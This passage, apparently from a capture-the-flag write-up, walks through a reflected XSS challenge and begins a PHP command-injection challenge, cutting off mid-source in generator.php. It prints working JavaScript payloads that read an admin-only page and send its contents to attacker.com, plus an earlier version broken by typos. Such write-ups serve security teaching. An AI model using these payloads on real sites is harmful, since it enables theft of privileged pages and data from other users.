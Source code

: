 Entering one of the blogs we have, we can see that the blog number value is being passed through blogNumber GET parameter and it is reflected back on the page. I immediately tried to change the value to a random number and this number was also reflected.
![alt-text](https://i.imgur.com/OxkHNfG.png)  

Trying an XSS POC, we could successfully get an alert(1) pop up, which means this website is vulnerable to XSS. 
![alt-text](https://i.imgur.com/jEuIRaH.png)

Putting all the puzzle together, we write a simple JS function that upon execution, it sends the content of /administrator page to our server. (The chosen server in this challenge was ngrok, you can use webhook or any other alternative).  
At first, I tried this payload, but it didn't work for some reason, so I used the second one as an alternative. 
##### First failed payload:
```js
var xhr=newXMLHttpRequest();
xhr.open('GET','http://18.225.156.202:9090/administrator',true);
xhr.onload=function(){ varrequest=newXMLHttpRequest();
request.open('GET','https://attacker.com?flag='+ xhr.responseText,true);
request.send() }; xhr.send();
``` 

##### Second successful payload:
```js
fetch('/administrator') 
	.then(response => response.text()) 
	.then(text => { fetch('https://attacker.com?flag=' + encodeURIComponent(text));
	});
```

Sending the payload to the admin, we got the response back from the admin bot with the extracted page content. We can then URL decode it to obtain the flag. 

![alt-text](https://i.imgur.com/n0SDmuM.png)

### Mad Lib - 300 points - Medium
The website for this challenge had an upload feature for txt files only.
There was also a source code, which enabled me to review the code and figure out the vulnerability here. It was a command injection but let's have it explianed little by little.
The challenge folder contained three files: generator.php, index.php and upload.php. 
When trying to upload a txt file, a request was made to upload.php and generator.php file wasn't triggered at all. Seeing its source code for a better understand.

##### generator.php

```php
<?php
function curl_get_contents($url){
	$hostname = parse_url($url)["host"];
	$headers = array( 
		"Host: $hostname",
		"Accept-Language: en-US,en;q=0.9",  
        	"Accept: */*;"
    	);
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL,$url);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
	curl_setopt($ch, CURLOPT_HEADER, false);
	curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
	curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/32.0.1700.107 Safari/537.36");
	curl_setopt($ch, CURLOPT_REFERER, $_SERVER[HTTP_HOST]);
	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
```